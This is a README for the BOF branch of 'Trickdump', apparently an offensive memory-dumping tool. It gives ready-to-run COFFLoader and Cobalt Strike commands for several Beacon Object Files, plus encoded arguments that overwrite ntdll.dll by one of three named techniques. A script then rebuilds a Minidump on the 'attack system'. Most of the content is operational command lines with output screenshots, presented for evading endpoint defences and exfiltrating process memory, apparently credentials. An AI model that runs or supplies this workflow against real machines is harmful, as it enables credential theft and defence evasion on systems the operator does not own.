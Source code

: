 # Trickdump - "bof-flavour" branch

This branch implements the same functionality as the main branch but using BOFs (Beacon Object Files).

You can execute the files using Cobalt Strike or TrustedSec's [COFFLoader](https://github.com/trustedsec/COFFLoader):

```
COFFLoader64.exe go lock_bof.o <OVERWRITE_TECHNIQUE>
```

![img1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF1.png)


```
COFFLoader64.exe go shock_bof.o <OVERWRITE_TECHNIQUE>
```

![img2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF2.png)

```
COFFLoader64.exe go barrel_bof.o <OVERWRITE_TECHNIQUE>
```

![img3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF3.png)

You can use use an argument for overwriting ntdll.dll:

- "disk": Using a DLL already on disk. The default path is "C:\Windows\System32\ntdll.dll".

  - Translated to the value "0e0000000a0000006400690073006b000000" for COFFLoader.

- "knowndlls": Using the KnownDlls folder.

  - Translated to the value "18000000140000006b006e006f0077006e0064006c006c0073000000" for COFFLoader.

- "debugproc": Using a process created in debug mode. The default process is "c:\windows\system32\calc.exe".

  - Translated to the value "180000001400000064006500620075006700700072006f0063000000" for COFFLoader.

Examples running each one with a differente overwrite technique:

```
COFFLoader64.exe go lock_bof.o 0e0000000a0000006400690073006b000000
```

![img7](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF7.png)

```
COFFLoader64.exe go shock_bof.o 18000000140000006b006e006f0077006e0064006c006c0073000000
```

![img8](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF8.png)

```
COFFLoader64.exe go barrel_bof.o 180000001400000064006500620075006700700072006f0063000000
```

![img9](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF9.png)


I could not create a ZIP file using BOF files so the memory region dumps are created in a directory with a random name.

Use the updated *create_dump.py* script to generate the Minidump file in your attack system using the *-d* parameter for the directory path:

```
python3 create_dump.py [-l LOCK_JSON] [-s SHOCK_JSON] [-b BARREL_JSON] [-d BARREL_DIRECTORY] [-o OUTPUT_FILE]
```

![img4](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF4.png)


-------------------------

## All in one

If you prefer to execute only one file, the Trick BOF generates the 3 JSON files and the directory with the memory regions:

```
COFFLoader64.exe go trick_bof.o <OVERWRITE_TECHNIQUE>
```

It creates all the files at the same time:

![img5](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF5.png)

Optionally you can use the first argument to overwrite ntdll.dll in this case too:

```
COFFLoader64.exe go trick_bof.o 0e0000000a0000006400690073006b000000
```

![img10](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF10.png)

Then you can create the Minidump file using *create_dump.py*:

![img6](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF6.png)
